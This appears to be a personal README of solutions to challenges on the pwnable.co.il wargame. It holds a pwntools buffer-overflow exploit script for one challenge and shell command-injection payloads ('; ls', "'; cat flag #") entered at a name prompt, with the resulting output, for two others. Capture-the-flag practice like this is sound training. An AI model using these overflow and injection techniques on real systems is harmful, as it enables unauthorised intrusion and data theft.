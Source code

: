 # pwnable.co.il
pwnable.co.il my solutions


## welcome

```python
from pwn import *

r = remote('pwnable.co.il', 9000)
exe = ELF('welcome')
r.recvuntil('name?\n')
offset = 40

payload = b'a'*offset 
payload += p64(0x000000000040076c)
payload += p64(0x400708)
#print(payload)
r.sendline(payload)
r.interactive()
```


## dog1

first run ` ; ls ` in order to check what files are in the current direcotry
```
tal@tal-VirtualBox:~$ nc pwnable.co.il 9013
Hello!
What's your name?

; ls

Hello
dog
flag
ynetd
Thanks!
```
there is ` flag `, Lets cat it!

```
Hello!
What's your name?

; cat flag 

Hello
PWNIL{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
Thanks!
```

## dog2

first run ` '; ls # ` in order to check what files are in the current direcotry

```
tal@tal-VirtualBox:~$ nc pwnable.co.il 9016

Hello!

What's your name?
'; ls #

Hello
dog2
flag
ynetd
Thanks!
```

now, Lets read from flag!

```
tal@tal-VirtualBox:~$ nc pwnable.co.il 9016
Hello!
What's your name?
'; cat flag #

Hello 
PWNIL{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
Thanks!
```

